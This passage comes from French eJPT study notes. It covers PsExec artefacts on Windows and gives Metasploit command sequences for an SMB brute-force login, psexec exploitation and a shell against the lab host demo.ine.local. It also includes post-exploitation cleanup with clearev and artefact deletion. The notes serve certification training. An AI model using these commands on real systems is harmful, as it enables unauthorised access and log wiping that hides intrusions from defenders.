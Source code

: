 ### Artefacts PsExec sur le système
```bash
# Fichiers temporaires créés
C:\Windows\PSEXESVC.exe               # Service PsExec
C:\Windows\Temp\*.tmp                 # Fichiers temporaires

# Services créés (noms aléatoires)
sc query | findstr PSEXESVC
```

### Nettoyage post-exploitation
```bash
# Dans session Meterpreter
clearev                               # Nettoyer logs événements

# Suppression manuelle artefacts
rm C:\\Windows\\PSEXESVC.exe
execute -f sc -a "delete malicious_service"
```

---

## 🎯 8. Cas d'usage spécifiques eJPT

### Scénario 1: SMB → Brute force → PsExec
```bash
# 1. Découverte SMB
nmap -p445 --script smb-protocols demo.ine.local

# 2. Brute force credentials
use auxiliary/scanner/smb/smb_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit

# 3. Exploitation PsExec
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit

# 4. Recherche flag
shell
cd /
type flag.txt
```

### Scénario 2: Credentials connus → PsExec direct
```bash
# Si credentials fournis dans l'énoncé
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass password_from_lab
set LHOST your_kali_ip
exploit

# Post-exploitation immédiate
getuid
shell
```
